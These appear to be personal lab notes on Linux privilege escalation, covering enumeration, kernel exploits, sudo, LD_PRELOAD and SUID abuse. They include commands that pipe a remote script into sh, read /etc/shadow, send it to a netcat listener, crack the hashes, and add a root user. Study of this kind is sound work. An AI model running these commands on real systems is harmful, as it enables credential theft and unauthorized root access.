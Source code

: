 Priv Esc? The exploitation of vulns, design flaws, or configurations in an OS or desktop app to gain unauthorized acces to resources usually restricted from users.
- Reset passwords
- Bypass access control to data
- Edit software configs
- Enable persistent access
- Change user permissions
- Execute admin commands

# Enumeration
[[hostname]]
[[uname]]
[[_proc_version]]
[[_etc_issue]]
[[ps]]
[[env]]
[[sudo]]
[[ls]]
[[id]]
[[_etc_password]]
[[history]]
[[ifconfig]] + [[ip]]
[[netstat]]
[[find]]
[[python]]

# Automated Enumeration
Dependent of environment, ie. Python not available on target system
-   **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
  `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
-   **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
-   **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
-   **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
-   **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

# Kernel Exploits
1. Identify kernel version
2. Search for exploit code for the kernel version
3. Configure/run the exploit
Careful, as some exploits can crash the kernel
https://www.linuxkernelcves.com/cves
Ex. 
1. `uname -r`, get kernel version
2. find appropriate CVE and exploit (CVE-2015-1328), and figure out language used
3. get file to remote host, move to a writeable directory
	1. `nc -lvnp PORT < exploit.c` -- `nc IP PORT > exploit.c`
4. follow exploit instructions (compile c and then run w/ `gcc exploit.c -o exploit` -- `./exploit.c`)

# Sudo
run a `sudo -l` to see all commands with delegated sudo privileges
[https://gtfobins.github.io/](https://gtfobins.github.io/) info on how programs with sudo rights can be leveraged

Application Functions ex. Apache server allows for `apache2 -f ...` to specify a config file, this will spit out an error of the first line of a file if its invalid, like /etc/shadow

### LD Preload
1. check for LD_PRELOAD (w/ env_keep option) `env_keep+=LD_PRELOAD`
2. Write C shell code compiled into a share object (.so extension) [[LD_PRELOAD]]
3. Run program with sudo rights and point LD_PRELOAD to the .so file


`sudo nmap --interactive` ?? apparently gives a shell


# SUID
find SUID executable files with `find / -type f -perm 4000 2>/dev/null`   then compare those executables against GTFOBins: https://gtfobins.github.io

ex. no exploit bin available but nano has SUID set
1. nano to copy passwd and shadow files
2. use `unshadow passwd.txt shadow.txt > passwords.txt`
3. upload with a wordlist to John the Ripper
OR
1. Generate a password with [[openSSL]] `openssl passwd -1 -salt SALT PASS`
2. using nano, add new user to [[_etc_password]] with the password, give root membership
3. `su` to newly created user

Practical ex (given ssh login, low priv): 
0. hardmode it by running nmap, then brute forcing passwords with `hydra` 
1. ssh into karen's account, run `id` to get a sense of privileges
2. Based on the box, I run a `find -perm -4000...` for files that have SUID bit set (could also try `sudo -l` for other commands)
	1. Results are then checked against GTFOBins to look for an exploitable program (use SUID filter)
	2. (optional) overlook options because they don't seem sus
	3. find `base64` on GTFOBins, this will read out any file into base64, also has a --decode option 
3. `base64 /etc/shadow | base64 -d > shadow.txt` to write out, and then decode the shadow file (make sure you're in a writeable dir)
4. `nc ... < shadow.txt` to a listener to transfer files to local machine (send over `/etc/passwd `too) 
5. `unshadow PASSWD SHADOW` to get files into a format for John da Ripper to read
6. `john COMBINED_FILE` then spits out any found hashes (can also specify `--wordlist`, but the default works here)